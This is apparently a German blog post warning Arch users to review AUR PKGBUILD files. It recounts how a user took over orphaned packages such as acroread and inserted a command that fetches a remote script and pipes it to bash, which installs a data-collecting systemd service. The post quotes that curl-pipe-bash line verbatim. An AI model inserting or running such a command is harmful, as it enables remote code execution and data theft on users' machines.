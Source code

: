 ```yaml
---
title: Darum sollte man PKGBUILD-Dateien im AUR immer prüfen
date: 2018-07-08T17:00:00+0100
categories:
- Linux
- OSBN
tags:
- PKGBUILD
- Prüfen
- Sicherheit
slug: darum-sollte-man-pkgbuild-dateien-im-aur-immer-pruefen
---
```

Als Nutzer von Arch und insbesondere von AUR bekommt es öfters zu hören, dass man die PKGBUILD-Dateien vor dem Installieren prüfen soll. Gestern Abend hat sich gezeigt wie wichtig dies ist.

So ist im AUR beispielsweise acroread vorhanden. Das Paket war verwaist und wurde gestern von einem Nutzer Namens xeactor übernommen. Soweit kein Problem. Allerdings hat er in die PKGBUILD-Datei curl -s https://ptpb.pw/~x|bash -&amp; eingetragen. Mit den Script wird ein systemd-Dienst angelegt über den Daten des kompromittierten Systems gesammelt und und Pastebin gesendet werden. Der Nutzer hat aber glücklicherweise Fehler beim erstellen des Scripts gemacht. So ist $uploader nicht vorhanden, so dass das Hochladen fehlschlägt. Zudem hat xeactor seinen Pastebin-API-Key im Klartext eingetragen.

Da die gesammelten Daten alle relativ unkritisch sind ist es allerdings fraglich was xeactor hiermit erreichen wollte. Eventuell wollte er "nur" demonstrieren wie wichtig es ist, PKBUILD-Dateien im AUR immer zu prüfen. Denn prinzipiell hätte er deutlich mehr Schaden anrichten können.

Neben acroread waren auch noch ein paar andere verwaiste Pakete betroffen. Die Änderungen wurden inzwischen wieder rückgängig gemacht und der Nutzer gesperrt. Aufgrund solcher Vorkommnisse sollte man die Mailing-List aur-general abonieren.
